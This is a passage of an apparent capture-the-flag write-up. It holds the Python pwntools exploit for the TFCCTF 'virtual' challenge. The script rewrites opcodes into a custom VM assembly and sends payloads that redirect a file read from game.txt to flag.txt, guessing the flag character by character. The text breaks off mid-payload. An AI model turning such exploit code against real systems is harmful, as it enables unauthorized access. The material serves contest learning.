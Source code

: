 The final exploit:
```python
#!/usr/bin/env python3

from pwn import *

def convert_to_luma_asm(data):
	data = data.replace(b"XOR", b"XZD")
	data = data.replace(b"AND", b"LQE")
	data = data.replace(b"ADD", b"RALK")
	data = data.replace(b"SUB", b"MQZL")
	data = data.replace(b"DIV", b"LQDM")
	data = data.replace(b"MUL", b"XKA")
	data = data.replace(b"MOV", b"MISZ")
	data = data.replace(b"INC", b"OAN")
	data = data.replace(b"DEC", b"MAZ")
	data = data.replace(b"CMP", b"VMR")
	data = data.replace(b"MQD", b"MQD")
	return data

context.log_level = 'error'

flag = 'TFCCTF{'

elf = ELF('./virtual')

for i in range(7, 25):
	print(flag)
	for j in range(0, 16):
			# p = elf.process()
			p = remote('challs.tfcctf.com', 31776)

			# Change the game.txt to flag.txt

			p.readuntil('(lip) = ')
			filename = int(p.readuntil(b'\n')[:-1], 16)
			filename += 12773 + 2 # We start at the 'g' char
			# print("Filename at {}".format(hex(filename)))

			p.readuntil(b': \n')

			# Sending the 'f'
			Payload = b'''MOV l3,lip
			INC l4
			INC l4
			ADD lax, l4
			ADD l3, l4
			MUL l4, l4
			MUL l4, l4
			ADD l4, l4
			MOV l5, l4
			ADD l4, l4
			ADD l4, l5
			MUL lax,lax
			ADD l4,lax
			ADD l3,lax
			INC l3
			INC l3
			INC l4
			INC l4
			MUL l5,l5
			MUL l5,lax
			MOV l2,l5
			ADD l5,l2
```